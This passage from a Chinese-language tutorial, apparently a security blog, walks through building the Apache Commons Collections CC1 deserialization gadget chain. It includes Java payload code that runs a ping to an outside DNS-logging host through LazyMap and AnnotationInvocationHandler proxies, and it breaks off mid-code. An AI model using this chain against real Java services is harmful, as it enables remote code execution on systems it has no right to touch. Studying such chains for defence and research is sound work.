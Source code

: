```java
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.decorate(map, chainedTransformer);
        Class<?> clazzSink = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazzSink.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);
        Map proxy = (Map) Proxy.newProxyInstance(
                lazyMap.getClass().getClassLoader(),
                lazyMap.getClass().getInterfaces(),
                annotationInvocationHandler);
        HashMap<Map,Integer> hashmap= new HashMap<Map,Integer>();
        hashmap.put(proxy,1);
    }
}
```

下断点调试

![](image-85.png)

注意断点位置，只能在这里下，然后一步步去跟到`key.hashCode()`

![](image-86.png)

![](image-87.png)

成功跟到，且执行`key.hashCode()`后，由于此时的 key 是 proxy，也就是动态代理，所以会调用到它 handler 的 invoke 方法，如下
-->

![](image-88.png)

两个 if 都是成功的，Sink 也被完美的处理了，可惜被这个 switch 拦住了，无法进行下一步利用。既然 hashcode 函数被堵死，且在上图 Sink 中下断点然后写序列化、反序列化去 Debug 都没有走到这里，那么就不考虑用 HashMap 当作入口类。

这里肯定能找到其他类，但 ysoserial 的作者也是炫技吧，还是把 AnnotationInvocationHandler 当作 EntryClass，因为在它的 readObject 函数中调用了`memberValues.entrySet()`，memberValues 是完全可以控制的，如下-->

![](image-89.png)

修改一下 Payload，如下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class Example {
```